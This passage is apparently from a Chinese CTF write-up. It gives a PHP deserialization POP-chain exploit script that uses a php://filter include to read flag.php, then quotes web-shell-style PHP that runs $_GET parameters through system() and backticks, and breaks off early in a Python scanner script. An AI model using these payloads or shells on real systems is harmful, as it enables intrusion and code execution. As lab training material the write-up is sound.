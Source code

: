魔术方法`__toString`在类被当做一个字符串处理时会被自动调用，在魔术方法`__wakeup`则将属性`source`传入正则匹配函数`preg_match()`，在这个函数中`source`属性就被当做字符串处理。最终这个魔术方法_`_wakeup`又在类被反序列化时自动调用

`反序列化`->`调用Show类中魔术方法__wakeup`->`preg_match()函数对Show类的属性source处理-`>`调用Show类中魔术方法__toString`->`返回Show类的属性str中的属性source(此时这里属性source并不存在)`->`调用Test类中魔术方法__get`->`返回Test类的属性p的函数调用结果`->`调用Modifier类中魔术方法__invoke`->`include()函数包含目标文件(flag.php)`

`exp`

```php
<?php

class Modifier {
    protected  $var="php://filter/read=convert.base64-encode/resource=flag.php";
}

class Show{
    public $source;
    public $str;
}

class Test{
    public $p;
}

$a = new Show();
$b = new Show();
$b->str = new Test();
$b->str->p = new Modifier();
$a->source = $b;

echo serialize($a);
echo urlencode(serialize($a));
```

## [强网杯 2019]高明的黑客

访问`www.tar.gz`下载了一套源码，有3002个文件，只有一个`index.html`是正常文件，其余都是看似乱码的php，翻了两三遍目录发现毫无收获，打开一个看看这些文件的内容是不是有什么玄机吧。

```php
<?php
$_GET['jVMcNhK_F'] = ' ';
system($_GET['jVMcNhK_F'] ?? ' ');
$_GET['tz2aE_IWb'] = ' ';
echo `{$_GET['tz2aE_IWb']}`;
$_GET['cXjHClMPs'] = ' ';
echo `{$_GET['cXjHClMPs']}`;
```

`exp`

```python
import os
import requests
import re
import threading
import time

print('开始时间：  '+  time.asctime( time.localtime(time.time()) ))
s1=threading.Semaphore(100)                                            #这儿设置最大的线程数
filePath = r"D:/soft/phpstudy/PHPTutorial/WWW/src/"
os.chdir(filePath)                                                    #改变当前的路径
requests.adapters.DEFAULT_RETRIES = 5                                #设置重连次数，防止线程数过高，断开连接
files = os.listdir(filePath)
session = requests.Session()
session.keep_alive = False                                             # 设置连接活跃状态为False
```